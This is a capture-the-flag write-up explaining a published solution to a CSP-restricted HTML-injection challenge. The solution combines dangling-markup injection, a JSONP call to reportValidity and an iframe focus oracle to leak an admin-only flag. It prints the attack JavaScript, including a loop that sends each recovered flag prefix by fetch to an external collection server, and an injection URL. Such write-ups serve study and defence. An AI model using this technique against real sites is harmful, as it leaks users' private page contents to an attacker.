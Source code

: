 This writeup is based on my understanding of [Terjanq solution](https://gist.github.com/terjanq/cd146e97fac07db1c15e6037af7644e0), I didn't solved the challenge in the competition neither after the competition.

Some **Terjanq** words

### Chall:
1. The flag was in the body of the page in form of `<strike>CTF-BR{flag}</strike>` visible only to admin.
2. There was a simple HTML Injection endpoint that happened before the flag.
3. The goal was to retrieve that flag by sending a URL to the page to admin.

### Rules:
1. CSP: `default-src 'none'; script-src 'self'; form-action 'none'; base-uri 'none'; sandbox allow-scripts;`
2. Blocked characters in HTML Injection: `/[:&%#]/`
3. Allowed characters in JSONP: `/^[a-z.]+$/`

___

### The constraints:

There are multiple constraints which make us unable to leak the flag from the admin.

* We can't run injectable javascript using the `name` parameter since CSP will block it.
* We can run some javascript which will be not blocked, using the JSONP callback. But this javascript code is very limited. So we can't do thing like `fetch('my-server.com/?leak=' + flag)`

Here is when `Solution part 0.` comes in. We'll redirect the admin to a page that we own, in that page, we'll have the **Terjanq** solution.

___

### Escenario now has changed. The admin is on a page that we control.

I'll try to explain some technical stuff which are used in the solution.

#### reportValidity
Let's assume we have something like this.
```html
<input id=x value='my-flag' pattern='my-f[^b].*'>
```
The pattern is asking for a prefix `my-f` then any character which is not a `b`, finally, any character. So if we run:
```javascript
ok = document.getElementById('x').reportValidity()
```
The value of *ok* will be `true` since the pattern matches.

Another thing to take in count is, if the pattern doesn't match, the element `x` will gain focus.

#### Dangling markup

[What is dangling markup injection?](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)

With this injection we'll capture the flag inside the value of an input tag.

https://scriptless.world/?name=%3Cinput+value=%27 If we inspect the source code of that page. We'll see that a big part of the HTML content is inside of the value attribute. Note that the flag part is inside it.
___


If we now check the `go` function
``` javascript
async function go(prefix){
    for(let c of alph){
        let r = await test(prefix, c);
        if(r) {
            prefix += c;
            fetch('https://extract.server/x?f='+prefix)
            go(prefix);
            break;
        }
    }
}
```

It will try different patterns for the flag. With each pattern, it will run the `test` function:
```javascript
async function test(prefix, letter){
    return new Promise(r=>{
        let x = document.createElement('iframe');
        document.body.appendChild(x);

        x.focus();
        let win = x.contentWindow;
        let doc = x.contentDocument;
        win.onblur = () => r(1);
        let i = doc.createElement('iframe');
        i.src = URL.replace('PREFIX', prefix).replace('LETTER', letter)
        doc.documentElement.appendChild(i);
        i.onload = () => {
            console.log(/load/);
            r(0);
            x.remove();
        }
    })
}
```
Let see what the `test` functions does:

1. It will create an iframe, lets call it `x`
2. It will give focus to this iframe.
3. It will add a function to the event `onblur` which will end the promise with the value of `1`.
4. It will create a new iframe, let's call it `i`, inside the iframe `x`.
5. It will load the iframe `i` with the `URL` variable.

**Lets stop a moment here**
The URL variable is used for multiple purposes

1. URL will load the scriptless.world page. This page will have the flag in the HTML code.
2. Using the JSONP, URL will make it able to run `x.reportValidity()`. Note here that it'll be call with a string as a parameter, but this doesn't matter.
3. URL will inject a HTML tag. `<input id=x pattern='a pattern here' value='`. Note that the tag isn't close and also the `value` attribute has only one single quote. Here is when [dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) comes into the game.
4. Because of the dangling markup. The value of the input `x` will have a lot of trash, the flag and finally more trash. (That's why URL has a long pattern, it's to match the trash before the flag)

To summarize, URL will:
* Inject an input tag with a pattern and a value. The value contains the flag.
* Inject a script with the JSONP call, which will run reportValidity.

Getting back to the test function, after the step 5, there are two thing that could happen:

* If the current pattern doesn't match. (Note the way the pattern is made), `reportValidity` will return false and iframe `i` will gain focus, so iframe `x` loses focus, which will trigger the `onblur` event returning a `1`.
* If the current pattern does match. It'll be because the current prefix of the flag isn't correct. So the Promise response will be `0`.

Finally everytime the prefix is updated, the `go` function makes a fetch to a server of our property to look into the logs for the flag.


## Some resources that I used to understand the solution
* [JavaScript Promises In 10 Minutes](https://www.youtube.com/watch?v=DHvZLI7Db8E)
* [JavaScript Async Await](https://www.youtube.com/watch?v=V_Kr9OSfDeU)
* [reportValidity](https://googlechrome.github.io/samples/report-validity/)
* [Dangling markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)

